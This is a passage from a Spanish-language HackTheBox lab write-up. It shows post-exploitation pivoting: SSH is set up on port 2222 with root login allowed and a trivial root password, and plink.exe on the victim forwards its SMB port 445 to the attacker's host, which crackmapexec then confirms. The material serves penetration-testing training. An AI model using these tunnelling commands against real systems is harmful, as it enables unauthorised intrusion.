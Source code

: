 - Port 2222
- PermitRootLogin yes

Cambiamos el puerto default del servicio SSH debido a que la plataforma de HackTheBox tiene unas reglas que no permite el puerto 22 para hacer *Remote Port Forwarding* y permitimos el login del usuario **root**.

Una vez hecho esto, levantamos y reiniciamos el servicio SSH; así como también validamos que no tenemos el puerto 445 listado en `netastat`:

```bash
❯ service ssh start
❯ service ssh restart
❯ netstat -nat | grep "445"
```

Por útlimo, cambiamos la contraseña del usuario **root** por una más fácil (para este caso será *hola*). Ahora si, ejecutamos el programa en la máquina víctima:

```bash
❯ passwd
Nueva contraseña: 
Vuelva a escribir la nueva contraseña: 
passwd: contraseña actualizada correctamente
```

```bash
plink.exe -l root -pw hola -R 445:127.0.0.1:445 -P 2222 10.10.14.16
plink.exe -l root -pw hola -R 445:127.0.0.1:445 -P 2222 10.10.14.16
The server's host key is not cached. You have no guarantee
that the server is the computer you think it is.
The server's ssh-ed25519 key fingerprint is:
ssh-ed25519 255 SHA256:NCwkGzWJ47qJZj30RdSxdkzOTenMrn4+fRsdijaL5GQ
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
y
Using username "root".
```

Ahora validamos que tenemos el puerto 445 en escucha en nuestra máquina:

```bash
❯ netstat -nat | grep "445"
tcp        0      0 127.0.0.1:445           0.0.0.0:*               LISTEN     
tcp6       0      0 ::1:445                 :::*                    LISTEN
```

También podríamos validar con `crackmapexec` recordando que debemos apuntar a nuestra loopback:

```bash
❯ crackmapexec smb 127.0.0.1
SMB         127.0.0.1       445    GRANPA           [*] Windows Server 2003 R2 3790 Service Pack 2 (name:GRANPA) (domain:granpa) (signing:False) (SMBv1:True)
```
